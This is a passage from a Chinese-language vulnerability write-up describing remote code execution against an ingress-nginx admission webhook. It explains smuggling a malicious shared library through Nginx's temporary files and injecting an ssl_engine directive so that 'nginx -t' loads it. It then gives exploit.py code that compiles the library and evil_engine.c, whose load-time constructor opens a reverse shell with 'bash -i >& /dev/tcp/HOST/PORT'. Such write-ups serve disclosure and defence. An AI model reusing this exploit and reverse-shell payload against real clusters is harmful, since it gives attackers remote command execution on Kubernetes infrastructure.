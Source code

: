 eg:proc/pid/fd)  
持续被打开。  
  
  
  
所以只需要通过向开放的  
Nginx  
发送携带了恶意共享库文件的  
POST  
请求，  
Nginx  
将其写入临时文件，再通过向  
AdmissionWebhook  
发送注入了  
ssl_engine/proc/pid/fd  
的恶意  
AdmissionReview  
请求，当  
review  
被  
AdmissionWebhook  
转化成  
Nginx  
配置文件并执行  
nginx-t  
时，  
ssl_engine  
加载恶意共享库文件，从而执行任意代码。具体  
攻击流程  
如下：  
  
  
PoC视频：https://github.com/user-attachments/assets/9e893abf-5c01-4fcb-ad79-7115b429281f。  
  
  
1.生成恶意库文件 （.so 文件）。  
- exploit.py  
  
```
   def create_lib(host, port):              lib_code = open("lib_template.c", "r").read()       lib_code = lib_code.replace("HOST", host)       lib_code = lib_code.replace("PORT", str(port))              with open("evil_engine.c", "w") as f:           f.write(lib_code)           f.close()              #编译evil_engine.c 生成 evil_engine.so       process = os.system("gcc -fPIC -Wall -shared -o evil_engine.so evil_engine.c -lcrypto")       if process == 0:           print("[+] Shared object compiled successfully")           return True       else:           print("[+] Error compiling shared object - gcc is installed?")           sys.exit(0)
```  
  
- evil_engine.c  
  
```
#include <stdlib.h>      __attribute__((constructor))   void run_on_load() {       system("bash -c 'bash -i >& /dev/tcp/HOST/PORT 0>&1'");   }      int bind(void *e, const char *id) {       return 1;   }      void ENGINE_load_evil() {}      int bind_engine() {       return 1;   }
```  
  
  